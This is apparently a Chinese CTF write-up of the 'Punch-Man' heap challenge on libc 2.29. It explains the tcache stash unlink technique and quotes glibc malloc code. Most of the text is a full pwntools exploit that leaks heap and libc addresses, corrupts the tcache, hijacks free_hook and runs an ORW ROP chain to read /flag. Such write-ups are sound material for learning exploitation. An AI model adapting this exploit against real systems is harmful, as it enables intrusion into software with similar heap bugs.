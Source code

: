 ---
title: Punch-Man
date: 2021-06-24 10:49:43
tags:
----
Punch-Man & tache stash unlink attack
<!--more-->
# **prologue**

很棒的一题，主要使用了libc-2.29下利用 `small bin tache stash` tacache中有6个chunk的情况，攻击效果是类似于之前版本的 `unsorted bin attack` 往任意地址写固定值。

# **analyze**

- libc=2.29
- 保护全开+orw
- UAF
- malloc范围限制在small bin范围

UAF比较明显，很容易泄漏heapbase&libcbase,主要难在利用，因为题目用的是calloc所以不从tcache里面取，有个隐藏菜单可以malloc 0x217，但仅限于tcache满的时候。

所以在这种情况下，tcache和small bin的路已经被锁死了，需要用 `small bin`相关的利用来扩大利用。

# **tcache stash in small bin**

libc 2.29引入的新机制，可以在[这里][1]看看，和本题相关的简单来说当tcache未满时从small bin取下一个时会将剩下的chunk放入tcache，但是检查不严格。如下可以看到，没有检查bck的fd是不是victim。

```c
#if USE_TCACHE
          /* While we're here, if we see other chunks of the same size,
             stash them in the tcache.  */
          size_t tc_idx = csize2tidx (nb);
          if (tcache && tc_idx < mp_.tcache_bins)
            {
              mchunkptr tc_victim;
              /* While bin not empty and tcache not full, copy chunks over.  */
              while (tcache->counts[tc_idx] < mp_.tcache_count
                     && (tc_victim = last (bin)) != bin)
                {
                  if (tc_victim != 0)
                    {
                      bck = tc_victim->bk;//*
                      set_inuse_bit_at_offset (tc_victim, nb);
                      if (av != &main_arena)
                        set_non_main_arena (tc_victim);
                      bin->bk = bck;
                      bck->fd = bin;
                      tcache_put (tc_victim, tc_idx);
                    }
                }
            }
#endif
```

这里的利用方式有很多，本题中因为最少只能有6个chunk在tcache中（0x220），能达成的效果只有类似unsorted bin atk。

构造方式: small bin 有2个chunk，tcache有6个chunk.

构造small bin 第二个chunk的 fd不变，bk为需要写的地址-0x10。

calloc 掉一个smallbin就可以触发，往构造的地址写一个固定的值。

# **solution**

我想到的比较方便的是攻击global_max_size。

我的思路：要想获得任意地址写可以走small bin 可以走tcache，但是tcache比较简单先试试tcache；因为只能malloc一个所以要么直接控制heap开始的时候那个tcache结构体要么把计数器改成很大（这个试了一下发现因为寄存器存值所以失败了）；然后目标是tcache结构体，现有能力是任意地址写固定值，所以就自然而然地改掉global_max_size然后fast bin atk

# **EXP**

```c
from pwn import *
context.arch='amd64'
context.log_level='debug'

context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("> ",str(c))
def add(idx,size):
    cmd(1)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",size*"A")
def free(idx):
    cmd(4)
    p.sendlineafter(": ",str(idx))
def edit(idx,c):
    cmd(2)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(3)
    p.sendlineafter(": ",str(idx))
def punch(c="A"):
    cmd(0xc388)
    p.send(c)
p=process('./pwn')

for x in range(2):
    add(0,0x217)
    free(0)
show(0)
p.readuntil("name: ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x260
for x in range(5): 
    add(0,0x217)
    free(0)

add(0,0x217)
add(1,0x217)
free(0)
show(0)
p.readuntil("name: ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7ffff7fbfca0-0x7ffff7ddb000)
free(1)
# clear
for x in range(7):
    add(0,0x248)
    free(0)
add(0,0x217)
add(1,0x88)
add(1,0x217)
add(2,0x88)
free(0)
free(1)
add(2,0x248)
punch()
edit(1,p64(0x2160+heap)+p64(0x7ffff7fc1600-0x7ffff7dda000+base-0x10))
add(0,0x217)
free(2)
edit(2,p64(heap))

add(2,0x248)
add(2,0x248)

free_hook=0x1e75a8+base
edit(2,'\0'*0x248)
edit(2,b'\0'*0x20+b'\7'*8+b'\0'*0xa0+p64(free_hook)*0x10)
punch(p64(0x7ffff7f2a550-0x7ffff7dda000+base))

#++++++++++++++++++++++++++++++
# Before starting this module, I 
# hope you have set free_hook
# ==> magic gadget <3 
chunk=heap+0x10
# chunk is Free's first Parameter
#+++++++++++++++++++++++++++++++
payload=p64(0)+p64(chunk)+b'\0'*0x10+p64(0x55e35+base)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.29.so")
libc.address=base
rop = ROP(libc)
sys = rop.find_gadget(['syscall','ret'])[0]
rsp=chunk
rdi=0
rsi=rsp
rdx=0x110
rbp=rsi-8
rcx=sys
payload=payload.ljust(0x68,b'\0')+flat([rdi,rsi,rbp,0,rdx,0,0,rsp,rcx])
edit(2,payload)
gdb.attach(p,'b free')
free(2)

rop.read(3,chunk+0x110,0x100)
rop.write(1,chunk+0x110,0x100)
rop.dump()
pyaload_rw =rop.chain()

rax = rop.find_gadget(['pop rax','ret'])[0]
rdi = rop.find_gadget(['pop rdi','ret'])[0]
rsi = rop.find_gadget(['pop rsi','ret'])[0]
rdx = rop.find_gadget(['pop rdx','ret'])[0]
pyaload_open =flat([rax,0x2,rdi,chunk+0xf8,rsi,0,rdx,0,sys])
pay = pyaload_open+pyaload_rw
p.send(pay.ljust(0xf8,b'\0')+b'/flag\0')

p.interactive()
```

[1]: https://n132.github.io/2021/05/09/New-Check-In-Glibc-2-29.html